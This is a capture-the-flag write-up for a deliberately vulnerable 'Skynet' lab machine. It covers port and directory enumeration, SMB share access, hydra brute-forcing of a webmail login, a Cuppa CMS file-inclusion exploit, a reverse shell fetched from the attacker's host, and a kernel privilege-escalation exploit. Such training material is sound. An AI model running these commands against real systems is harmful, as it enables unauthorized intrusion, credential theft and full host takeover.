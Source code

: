 #Linux #SMB #RFI

skynet: A vulnerable Terminator themed Linux machine


NMAP Scan

```sh
  nmap -sV -sC -p- 10.10.14.219
  ```
* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

OPEN PORTS

* 22/tcp  open  ssh
* 80/tcp  open  http
* 110/tcp open  pop3
* 139/tcp open  netbios-ssn
* 143/tcp open  imap
* 445/tcp open  microsoft-ds (SMB)

We start with Port 80/tcp. The HTML code does not shown anything interesting, the buttons do not work.  

![image](https://user-images.githubusercontent.com/99097743/170730299-698d3ae3-81c2-48dc-89db-eca62bddbfa1.png)

![image](https://user-images.githubusercontent.com/99097743/170730467-87b64da3-0597-40fd-8b33-55fa10cc4027.png)

Let's move on the 'hidden" directories, Gobuster can help us locate them:

```sh
gobuster dir -u=http://10.10.14.219 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image](https://user-images.githubusercontent.com/99097743/170731438-021c0087-aea6-46a2-8c6a-3cb0c93ba632.png)

This analysis takes a while. The following directories were listed after the first few minutes:

* /admin (Status 301)
* /css (Status 301)
* /js (Status 301)
* /config (Status 301)
* /ai (Satus 301)
* /squirrelmail (Status 301) -- Check this out!
* /server-status

![image](https://user-images.githubusercontent.com/99097743/170733365-d1597c75-3cac-4cb0-a7b8-0e3402861fd6.png)

**Searchsploit** suggests that there is no vulnerability documented for **SquirrelMail version 1.4.23**

![image](https://user-images.githubusercontent.com/99097743/170743722-89617c7d-6878-4ec2-b530-1676178865ba.png)

OK, Let's switch to Port 445/tcp - SMB server. We can try the **enum4linux** for enumerating information.


```sh
  enum4linux -a 10.10.14.219
  ```
* To do all simple enumerations (-a)

There are interesting results such as the known usernames:

![image](https://user-images.githubusercontent.com/99097743/170734669-57ec1e84-403f-4464-a5a9-6c62c66ebe0b.png)


Here are the sharenames:

![image](https://user-images.githubusercontent.com/99097743/170734874-50cb0cc9-7a02-484e-a69e-1e9aa92a5772.png)


We can use the **smbclient** to enter the anonymous share.


```sh
  smbclient '\\10.10.48.162\anonymous'
  
  # If you need to enter share with a username
  smbclient -U milesdyson '\\10.10.246.55\milesdyson'
  
  ```
  
 We captured a number of log files -- one of which includes a password list for the email account: **milesdyson**. 
 
 Let's use **hydra** for brute-forcing the email account 
 
 ```sh
 hydra -l milesdyson -P log1.txt 10.10.48.162 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect" -V -F -u
```
![image](https://user-images.githubusercontent.com/99097743/170764972-17fd4f81-db5a-40c1-862f-6014aa37ce7c.png)

We now have access to the email account!

![image](https://user-images.githubusercontent.com/99097743/170765416-03b102ff-c975-4637-a994-d061991061c4.png)

There is a Samba Password Reset email providing a new password. We can use the credentials to login the SMB share and see that there is a document titled **important.txt**. Here, it reveals an 'hidden directory'. Gobuster suggests that there is another hidden directory as **/administrator**, please see the figure below. 

![image](https://user-images.githubusercontent.com/99097743/170796322-835a1ab6-695b-442d-b8d6-5b48d7cfc906.png)

Now, let's go to **searchsploit** and search if there is any vulnerability documented for Cuppa CMS:

![image](https://user-images.githubusercontent.com/99097743/170797721-4e0caa91-3458-4107-b093-7957aedb4788.png)


```sh
  searchsploit -m php/webapps/25971.txt
  #VULNERABILITY: PHP CODE INJECTION
  #An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.
  
  # We basically include the following link:
  /alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
  
  #so the full URL becomes:
  curl http://10.10.74.120/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

  ```

Now, we can work on the reverse shell:

STEP 1: Generate the Reverse Shell and save it on the local host (Here, it is called RS.php)

![image](https://user-images.githubusercontent.com/99097743/170798516-8239f698-5ea1-4fb9-9d05-7ad32868babe.png)


STEP 2: Open up an HTTP server to transfer the payload to the target machine

```sh
  sudo python3 -m http.server 80
  ```
  
STEP 3: Turn on the listener
```sh
sudo nc -lvnp 87
 ```

STEP 4: Modify the PHP Injection URL:

```sh
curl  http://10.10.74.120/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.123.93:80/RS.php
  ```
  
STEP 5: Upload the PHP file from the localhost using the HTTP server and invoke the listener

Niceeee!! it works: 


This picture gives an overall summary of the steps followed:

![Screenshot 2022-05-27 191059](https://user-images.githubusercontent.com/99097743/170802509-703b2ac1-1a5c-4edc-a61e-c0b925793b0f.png)

Next step is stabilizing the shell!

```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

**Privilege Escalation**

Here, I followed the procedure explained in the following reference: https://ratiros01.medium.com/tryhackme-skynet-bdce0537fe7d

Step 1: Find kernel version

```sh
unama -a
 ```
![image](https://user-images.githubusercontent.com/99097743/170807309-ab99c440-a476-46af-87e8-6663f2fc82d5.png)

Step 2: Search for kernel exploits

![image](https://user-images.githubusercontent.com/99097743/170807403-c0b55136-2857-4e10-bdba-22d2bf56802c.png)


```sh
searchsploit linux kernel 4.8.0

searchsploit -m linux/local/43418.c
# File copied to the directory

wget http://10.18.123.93/43418.c
# Transfered to the target machine

#Commands to execute
gcc pwn.c -o pwn
./pwn

```

![image](https://user-images.githubusercontent.com/99097743/170808147-1f097557-f1ce-4067-a194-b50365d6ccaa.png)
